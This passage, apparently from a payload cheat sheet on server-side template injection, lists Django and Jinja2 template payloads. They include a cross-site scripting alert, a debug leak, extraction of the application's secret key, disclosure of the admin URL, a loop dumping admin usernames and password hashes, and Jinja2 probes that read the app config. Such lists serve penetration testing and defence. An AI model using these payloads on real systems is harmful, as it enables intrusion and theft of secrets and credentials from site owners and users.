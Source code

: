 ```python
# Variables
{{ variable }}
{{ variable.attr }}

# Filters
{{ value|length }}

# Tags
{% csrf_token %}
```

### Cross-site scripting

```python
{{ '<script>alert(3)</script>' }}
{{ '<script>alert(3)</script>' | safe }}
```

### Debug information leak

```python
{% debug %}
```

### Leaking app’s Secret Key

```python
{{ messages.storages.0.signer.key }}
```

### Admin Site URL leak


```
{% include 'admin/base.html' %}
```

### Admin username and password hash leak


```
{% load log %}{% get_admin_log 10 as log %}{% for e in log %}
{{e.user.get_username}} : {{e.user.password}}{% endfor %}
```

## Jinja2

[Official website](https://jinja.palletsprojects.com/)
> Jinja2 is a full featured template engine for Python. It has full unicode support, an optional integrated sandboxed execution environment, widely used and BSD licensed.  

### Jinja2 - Basic injection

```python
{{4*4}}[[5*5]]
{{7*'7'}} would result in 7777777
{{config.items()}}
```
